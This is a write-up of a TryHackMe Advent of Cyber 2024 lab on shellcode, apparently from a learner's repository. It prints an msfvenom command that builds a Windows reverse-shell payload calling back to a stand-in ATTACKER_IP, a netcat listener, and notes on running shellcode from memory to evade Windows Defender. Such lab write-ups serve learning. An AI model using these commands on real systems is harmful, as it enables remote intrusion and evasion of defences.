 # Advent of Cyber 2024 Writeup: Day 8

## Overview
**Room URL:** https://tryhackme.com/r/room/adventofcyber2024 \
**Difficulty:** Easy\
**Category:** Shellcodes\
**Date Completed:** 12/09/2024

### Objectives
1. Grasp the fundamentals of writing shellcode.
2. Generate shellcodes for reverse shells.
3. Executing shellcode with Powershell.

---

## Table of Contents
1. [Introduction](#introduction)  
2. [Walkthrough](#walkthrough)  
   - [Task 14: Shellcodes of the world, unite!](#task-14-shellcodes-of-the-world-unite)  
3. [Lessons Learned](#lessons-learned)  
4. [References](#references)

---

## Introduction
Shellcodes are injected into the victim's machine often in order to achieve remote code execution. In order to prevent them from detected by Windows Defender, shellcodes are often run directly from memory to avoid disk based detection. In this task, we'll gain access to a vulnerable system and use shellcode to get a reverse shell into the machine.

---

## Walkthrough

### Task 14: Shellcodes of the world, unite!

#### Sub-Question: What is the flag value once Glitch gets reverse shell on the digital vault using port 4444?

  - **Steps Taken:** There are multiple steps to getting the answer.
    - Firstly, we need to craft the shell code with the IP of the attack box and listening port of 4444. To do this we'll use the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f powershell` to indicate that we want a reverse tcp shell into a windows machine that will be executed in powershell.

    - After the shellcode has been generated, we'll use `netcat` to listen for any incoming connections on port 4444 with the command `nc -nvlp 4444`.

    - Then we will open powershell in the victim's machine and run the code provided with our shellcode.

    - Our listening terminal should grant us access to the victim's machine after which we can simply read the contents of `flag.txt`.

  - **Output/Result:**  
      ![q1-screenshot](../screenshots/day8/q1.png)  

---

## Lessons Learned
- Learned how to use shellcodes to get reverse shell into a windows machine.
- Learned about various Windows API functions used by malware such as:
  - `VirtualAlloc` to allocate memory in the process's address in order to prepare memory for storing and executing shellcode.
  - `CreateThread` to create a new thread that will execute shellcode loaded in memory.
  - `WaitForSingleObject` to pause execution to ensure that shellcode has run completely.

---

## References

